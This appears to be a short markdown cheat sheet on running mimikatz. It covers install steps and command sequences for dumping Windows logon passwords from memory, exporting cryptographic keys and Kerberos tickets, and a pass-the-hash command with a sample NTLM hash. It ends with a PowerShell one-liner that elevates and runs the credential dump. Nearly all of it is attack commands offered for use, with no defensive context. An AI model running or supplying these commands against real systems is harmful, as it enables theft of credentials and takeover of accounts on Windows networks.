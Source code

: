 # mimikatz

## install

1. download latest release

    https://github.com/gentilkiwi/mimikatz/releases
    
2. start the binary as administrator

    cd mimikatz_trunk/x64/
    mimikatz.exe

## flow

    cd
    log
    cls
    sleep 1000
    exit

    privilege::debug
    sekurlsa::logonPasswords

    crypto::providers
    crypto::keys /export

    sekurlsa::pth /user:Administrateur /domain:winxp /ntlm:f193d757b4d487ab7e5a3743f038f713 /run:cmd

    # runs pwd change with other accounts using pwd change hash
    pth (Pass-The-Hash)

    # reading from Kerberos tickets memory
    tickets /export

## automation

    Start-Process C:\mimikatz.exe -Verb runAs -ArgumentList "privilege::debug","sekurlsa::logonpasswords"
